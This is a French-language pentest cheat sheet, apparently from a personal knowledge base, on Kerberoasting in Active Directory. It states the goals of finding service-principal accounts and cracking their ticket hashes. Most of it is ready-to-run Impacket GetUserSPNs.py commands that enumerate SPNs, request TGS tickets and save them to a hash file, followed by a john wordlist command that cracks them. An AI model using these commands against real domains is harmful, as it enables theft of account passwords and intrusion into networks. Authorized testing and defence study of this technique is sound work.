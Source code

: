 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Sources

- https://dl.packetstormsecurity.net/papers/general/kerberoasting.pdf

## Objectifs
- Obtenir une liste de compte utilisateurs disposant d'un SPN
- Collecter les TGS associés à ces SPNs (chiffrés en RC4)
- Tenter de cracker les mots de passe des comptes utilisateurs à partir des TGS récupérés (qui sont chiffrés avec les hash de comptes utilisateurs respectifs)

## Méthodologie



### Distante

#### Impacket

##### Utiliser GetUserSPNs.py
 Il réalise les opérations suivantes :
- découverte des SPNs
- Dump des TGS
- Obtention des Hashs

```
# Liste des comptes disposant d'un SPN
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD

# Récupération des TGS
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request

# Récupération d'un unique TGS
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request-user interesting.user

# Enregistrement des TGS pour les fournier à john / hashcat (fichier 'hashes.txt')
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request -outputfile hashes.txt
```

##### Cracker les hash (bruteforce)

```
john --wordlist=/path/to/rockyou.txt hashes.txt
```
[[_Techniques/Mots de passe/Casser un mot de passe/Hashcat]]
